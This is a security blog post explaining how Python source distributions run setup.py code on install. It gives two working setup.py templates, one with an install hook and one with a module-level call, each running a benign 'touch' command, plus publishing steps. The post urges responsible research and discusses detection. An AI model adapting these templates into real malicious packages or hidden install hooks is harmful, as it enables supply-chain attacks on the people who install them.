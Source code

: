 ```yaml
---
title: "Executing Code on Python Package Installs - Malicious Pypi"
date: 2022-09-08T08:39:26-07:00
draft: false
---
```


# Foreword

Multiple researchers in the community have given dependency confusion and other supply chain attacks a bad name recently. While there are very valid reasons to perform this attack, please do not pollute pypi or any other package manager with typosquatting, stolen code, or other non-targetted attacks in the name of security research. It's no different than spreading malware. The point has been made. Please be responsible.

# Executing code on package install

While most python packages are distributed as wheels, the ["binary" distribution format](https://packaging.python.org/en/latest/specifications/binary-distribution-format/), Pypi also enables developers to distribute their package as [source distributions](https://packaging.python.org/en/latest/specifications/source-distribution-format/) (or sdist). The sdist allows developers to suply the source code as the distribution such that the code is compiled into a wheel by the distutils/setuptools module on the system that installs it by calling the setup.py script that is bundled into the sdist. This will also occur even if the module if the module is downloaded via `pip download`.

As the setup.py script is supplied by the developer, it is easy to hook parts of distutils and supply your own code instead. Most examples use the built-in `cmdclass` parameter on the setup function to hook a specific command given to `setup.py`. Here is an example:

```python
from setuptools import setup
from setuptools.command.install import install

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

class HookedInstallClass(install):
    def run(self):
        install.run(self)
        bad_stuff()

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
    cmdclass={
        'install': HookedInstallClass,
    },
)
```

You can try this out by simply writing it to a setup.py file in a new directory and running `python setup.py install`

Actually bundling and publishing this code is as easy as `python setup.py sdist` and then uploading it via twine. [See the docs here.](https://docs.python.org/3/distutils/setupscript.html) 

# Without hooking

It's also worth noting that although most examples are hooking other functions using cmdclass in the end python is just running the script you supply and you can get as creative with it as you want. You may still want to keep the setup call however if you would like your module to build and install correctly. The following example will execute code every time `setup.py` is executed, including when you use to generate the sdist.

```python
from setuptools import setup

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
)

bad_stuff()
```

# Why is this allowed?

> These are useful for end users wanting to develop your sources, and for end user systems where some local compilation step is required (such as a C extension).

There are many use cases where you might want to compile your code differently on a different machine, check attributes of the system, compile other languages, etc.

# Other thoughts

Attacks on package managers are increasingly being considered as low-effort high-reward opportunities for attackers in much the same way that Android apps and Chrome extensions have historically been abused to distribute malware. This is already becoming a popular attack, and package managers are a particularly soft target due to lack of their own anti-malware teams and permission models.

While it is difficult to prevent these attacks from occurring, it should be easy to detect this technique due to the requirements of a package being distributed as a `.tar.gz file` and the setup.py entry-point. I hope to see more research in this space.

Thanks to [mschwager](https://github.com/mschwager) for his contributions as well, 0wned is a great example.

# Links

https://thehackernews.com/2022/09/warning-pypi-feature-executes-code.html

https://github.com/mschwager/0wned
